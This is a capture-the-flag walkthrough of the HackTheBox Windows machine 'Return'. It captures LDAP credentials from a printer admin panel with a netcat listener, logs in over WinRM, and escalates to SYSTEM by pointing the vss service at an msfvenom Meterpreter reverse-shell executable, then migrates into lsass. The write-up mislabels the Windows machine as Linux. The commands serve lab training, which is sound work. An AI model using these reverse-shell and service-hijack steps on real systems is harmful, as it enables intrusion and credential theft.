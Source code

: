 # CTF Penetration Testing

## Platform: HackTheBox

### Machine: [Return](https://www.hackthebox.com/machines/Return)

<img src="https://labs.hackthebox.com/storage/avatars/defa149ea7e259a4709a03a5825e970d.png" alt="Return Machine Logo" width="150"/>

- Machine type: <img src="https://hackmyvm.eu/img/windows.png" alt="Windows" width="17"/> Linux
- Machine difficulty: 🟩 Easy (3.0)

> **Return** is an easy difficulty Windows machine featuring a network printer administration panel that stores LDAP credentials. These credentials can be captured by inputting a malicious LDAP server which allows obtaining foothold on the server through the WinRM service. User found to be part of a privilege group which further exploited to gain system access.

#### Skills Learned

- **Network Printer Abuse**
- **Server Operators Group Abuse**

#### Tools Used

Linux:
- `nmap`
- `whatweb`
- `ffuf`
- `burpsuite`
- `msfvenom`
- `msfconsole`
- `netexec`
- `evil-winrm`
- `net.exe`
- `sc.exe`

#### Machine Writeup

```
┌──(nabla㉿kali)-[~]
└─$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.144  netmask 255.255.254.0  destination 10.10.14.144

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -e '10.129.95.241\treturn.htb' | sudo tee -a /etc/hosts

10.129.95.241	return.htb
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sSV -p- return.htb -T5 --min-rate=10000

[SNIP]

PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-30 16:06:36Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
54394/tcp open  msrpc         Microsoft Windows RPC
```

```
┌──(nabla㉿kali)-[~]
└─$ whatweb http://return.htb

http://return.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.95.241], Microsoft-IIS[10.0], PHP[7.4.13], Script, Title[HTB Printer Admin Panel], X-Powered-By[PHP/7.4.13]
```

![Firefox - Return Homepage](./assets/screenshots/hackthebox_return_01.png)

**Network Printer Abuse**

![Firefox - Settings Page](./assets/screenshots/hackthebox_return_02.png)

```
┌──(nabla㉿kali)-[~]
└─$ sudo nc -lvnp 389

listening on [any] 389 ...

[CONTINUE]
```

![Burp Suite - POST Settings](./assets/screenshots/hackthebox_return_03.png)

```
[CONTINUE]

connect to [10.10.14.144] from (UNKNOWN) [10.129.95.241] 56337
0*`%return\svc-printer�
                       1edFg43012!!
```

```
┌──(nabla㉿kali)-[~]
└─$ netexec smb return.htb -u 'svc-printer' -p '1edFg43012!!'

SMB         10.129.95.241   445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.129.95.241   445    PRINTER          [+] return.local\svc-printer:1edFg43012!!
```

```
┌──(nabla㉿kali)-[~]
└─$ evil-winrm -i return.htb -u 'svc-printer' -p '1edFg43012!!'

[SNIP]

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> type C:\Users\svc-printer\Desktop\user.txt

a200e*************************** 🚩
```

**Server Operators Group Abuse**

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer

[SNIP]

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```

```
┌──(nabla㉿kali)-[~]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.144 LPORT=1337 -f exe > revsh.exe

[SNIP]

Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

```
┌──(nabla㉿kali)-[~]
└─$ msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.10.14.144; set LPORT 1337; run"

[SNIP]

[*] Started reverse TCP handler on 10.10.14.144:1337

[CONTINUE]
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload revsh.exe

[SNIP]

Info: Uploading /home/nvbla/revsh.exe to C:\Users\svc-printer\Documents\revsh.exe
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath=C:\Users\svc-printer\Documents\revsh.exe

[SC] ChangeServiceConfig SUCCESS
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop vss
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
```

```
[CONTINUE]

[*] Sending stage (177734 bytes) to 10.129.95.241
[*] Meterpreter session 1 opened (10.10.14.144:1337 -> 10.129.95.241:57906) at 2025-06-30 11:38:14 -0500

(Meterpreter 1)(C:\Windows\system32) >
```

```
(Meterpreter 1)(C:\Windows\system32) > getuid

Server username: NT AUTHORITY\SYSTEM
```

```
(Meterpreter 1)(C:\Windows\system32) > migrate -N lsass.exe

[*] Migrating from 4744 to 648...
[*] Migration completed successfully.
```

```
C:\Windows\system32> type C:\\Users\\Administrator\\Desktop\\root.txt

f7d67*************************** 🚩
```

<img src="https://hackmyvm.eu/img/correctflag.png" alt="Machine Hacked!" width="150"/>

---
---
